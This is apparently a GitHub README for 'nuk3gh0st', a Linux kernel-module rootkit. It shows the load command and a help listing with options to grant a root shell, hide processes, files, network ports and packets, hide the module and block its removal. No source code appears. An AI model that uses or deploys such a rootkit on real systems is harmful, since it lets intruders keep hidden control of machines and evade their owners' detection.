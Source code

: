 ## Use

Load rootkit:

```sh
load-nuk3gh0st
```

Use rootkit:

```sh
nuk3gh0st --help


   $$    $$            $$         $$$$$$        
   $$$   $$            $$     $$ $$    $$       
   $$$$  $$  $$    $$  $$    $$        $$       
   $$ $$ $$  $$    $$  $$   $$     $$$$$        
   $$  $$$$  $$    $$  $$$$$$         $$        
   $$   $$$  $$    $$  $$   $$   $$    $$       
   $$    $$   $$$$$$   $$    $$   $$$$$$        

    $$$$$$  $$        $$$$$$             $$     
   $$    $$ $$       $$$   $$            $$     
   $$       $$$$$$$  $$$$  $$  $$$$$$$ $$$$$$   
   $$  $$$$ $$    $$ $$ $$ $$ $$         $$     
   $$    $$ $$    $$ $$  $$$$  $$$$$$    $$     
   $$    $$ $$    $$ $$   $$$       $$   $$ $$  
    $$$$$$  $$    $$  $$$$$$  $$$$$$$    $$$$   

                   By Juan Schällibaum
		Based on Nurupo's Rootkit          

   Usage: nuk3gh0st [OPTION]...

   Options:
     --root-shell                 Grants you root shell access.
     --hide-pid=PID               Hides the specified PID.
     --unhide-pid=PID             Unhides the specified PID.
     --hide-file=FILENAME         Hides the specified FILENAME globally.
                                  Must be a filename without any path.
     --unhide-file=FILENAME       Unhides the specified FILENAME.
     --hide-tcp-port=PORT         Hides the specified tcp PORT.
     --unhide-tcp-port=PORT       Unhides the specified tcp PORT.
     --hide-tcp6-port=PORT        Hides the specified tcp6 PORT.
     --unhide-tcp6-port=PORT      Unhides the specified tcp6 PORT.
     --hide-udp-port=PORT         Hides the specified udp PORT.
     --unhide-udp-port=PORT       Unhides the specified udp PORT.
     --hide-udp6-port=PORT        Hides the specified udp6 PORT.
     --unhide-udp6-port=PORT      Unhides the specified udp6 PORT.
     --hide-tcp-packet=IP         Hides tcp4 packets incoming or outgoing from IP.
     --unhide-tcp-packet=IP       Unhides tcp4 packets incoming or outgoing from IP.
     --hide                       Hides the rootkit LKM.
     --unhide                     Unhides the rootkit LKM.
     --help                       Print this help message.
     --protect                    Protects the rootkit from rmmod.
     --unprotect                  Disables the rmmod protection.
```
